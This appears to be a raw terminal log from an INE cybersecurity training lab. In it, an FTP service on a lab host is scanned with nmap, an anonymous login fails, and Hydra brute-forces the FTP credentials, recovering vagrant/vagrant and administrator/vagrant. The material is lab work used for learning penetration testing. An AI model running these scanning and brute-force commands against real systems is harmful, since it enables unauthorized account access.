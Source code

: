 ```
root@attackdefense:~# nmap -sV -p 21 --script=ftp-anon 10.0.26.121
Starting Nmap 7.92 ( https://nmap.org ) at 2023-04-30 17:29 IST
Nmap scan report for demo.ine.local (10.0.26.121)
Host is up (0.0026s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds
```

```
root@attackdefense:~# ftp 10.0.26.121 21
Connected to 10.0.26.121.
220 Microsoft FTP Service
Name (10.0.26.121:root): anonymous
331 Password required for anonymous.
Password: 
530 User cannot log in.
ftp: Login failed
ftp> exit
221 Goodbye.
```

```
root@attackdefense:~# hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.0.26.121 ftp
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-30 17:34:30
[DATA] max 16 tasks per 1 server, overall 16 tasks, 169512 login tries (l:168/p:1009), ~10595 tries per task
[DATA] attacking ftp://10.0.26.121:21/
[STATUS] 4568.00 tries/min, 4568 tries in 00:01h, 164944 to do in 00:37h, 16 active
[21][ftp] host: 10.0.26.121   login: administrator   password: vagrant
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

```
root@attackdefense:~# hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_users.txt 10.0.26.121 ftp -I
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-30 17:40:37
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 168 login tries (l:1/p:168), ~11 tries per task
[DATA] attacking ftp://10.0.26.121:21/
[21][ftp] host: 10.0.26.121   login: vagrant   password: vagrant
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-30 17:40:40
```
